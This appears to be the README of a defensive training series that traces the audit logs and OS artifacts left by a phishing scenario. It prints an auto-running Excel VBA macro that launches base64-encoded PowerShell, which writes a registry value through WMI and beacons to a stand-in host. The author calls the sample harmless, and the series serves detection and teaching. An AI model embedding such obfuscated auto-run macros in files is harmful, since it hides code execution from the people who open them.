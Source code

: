 # 🐾 Spoors

This series will try to uncover the traces, audit logs and some of the OS artifacts left behind (by default, or by enabling extra stuff) when users are tricked to click where they shouldn’t have. 

## Season 1

This first season isn’t too much about hunting. But about understanding what data to look for. In a next season, we’ll focus on how to leverage Microsoft Defender 365 products as well as Microsoft Sentinel.

📜 Here is the scenario:

A bad actor sent a message to potentially multiple recipients at PieSec Corp. This message contained a malicious attachment, an Excel file with a macro, which executes obfuscated PowerShell code to do two tasks:
1. Write something in the registry (maybe to stay persistent)
2. Send a message to a C2 server

![Diagram season 1](Images/S01.jpg)

Here is the macro's code:
```
Private Sub Workbook_Open()

    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run ("powershell -encodedcommand SW52b2tlLVdtaU1ldGhvZCAtQ2xhc3MgU3RkUmVnUHJvdiAtTmFtZSBTZXRTdHJpbmdWYWx1ZSAtQXJndW1lbnRMaXN0ICgyMTQ3NDgzNjQ5LCJTT0ZUV0FSRSIsIlllcyIsIkNhbkJlRGVsZXRlZCIpIDsgSW52b2tlLVdlYlJlcXVlc3QgLVVyaSAiaHR0cDovL3BlcmR1LmNvbSI=")

End Sub
```
The macro is configured to run automatically. 

💡 Note that the code is harmless. It can run on your own system without damaging anything. 

### S01E01 – The pilot
Introduction of the methodology and of the focus for the first season.

📄 No technical content.

### S01E02 – The post-person
The threat arrived in the environment via email. Could it has been stopped in the messaging platform? What traces of that message do we have in Exchange Online? Let's dig into this...  

📄 Read [S01E02](S01E02.md)

### S01E03 – Process tracks
The attachment was downloaded from Outlook and opened with Excel. In this episode we will see the traces left by those processes (and others invoked by the macro) on the victim's system.

📄 Read [S01E03](S01E03.md)

### S01E04 – PowerShell tracks
The PowerShell code was encoded in base64. In this episode, we will discover how we can track the things PowerShell does, how much visibility we get by default and how to enhance it.  

📄 Read [S01E04](S01E04.md)

### S01E05 – WMI logging
The first comdlet of the PowerShell script was `Invoke-WMIMethod`. In this episode we are going to review what is left behind where we do WMI queries on a system, whether it is with PowerShell or other tools.

📄 Read [S01E05](S01E05.md)

### S01E06 – Registry tracks
The WMI method called in the PowerShell script was modifying the registry. In this episode we will have a close look at that traces are generated when the registry is modified.

📄 Read [S01E06](S01E06.md)

### S01E07 – Track outbound network connections 

🔜 Coming soon...

## Season 2

🔜 Coming soon...